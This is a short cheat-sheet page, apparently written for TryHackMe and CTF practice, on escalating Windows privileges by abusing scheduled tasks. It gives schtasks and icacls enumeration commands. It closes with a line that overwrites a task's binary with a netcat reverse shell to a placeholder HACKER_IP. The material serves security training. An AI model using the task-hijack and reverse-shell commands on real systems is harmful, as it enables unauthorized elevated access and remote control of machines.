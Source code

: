 # Scheduled tasks

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

List scheduled tasks

```shell!
PS> schtasks
```

Query more info on a task <small>(ex: `example_task`)</small> with:

```shell!
PS> schtasks /query /tn example_task /fo list /v
```

When inspecting tasks, look for the binary in **Task To Run**. You may be able to **replace**, **edit** or **inject** some code in the binary.

* Check your [permissions](/operating-systems/windows/_knowledge/index.md#permissions-and-users)

```shell!
PS> icacls task_to_run
```
</div><div>

➡️ During CTFs, you may be given the permissions to restart the task, otherwise you will have to wait.

```shell!
PS> schtasks /run /tn taskname
```

<br>

#### Replace a task

Replace a binary executed by a task with `netcat`:

```shell!
CMD> echo %temp%\nc64.exe -e cmd.exe HACKER_IP PORT > task_to_run
```
</div></div>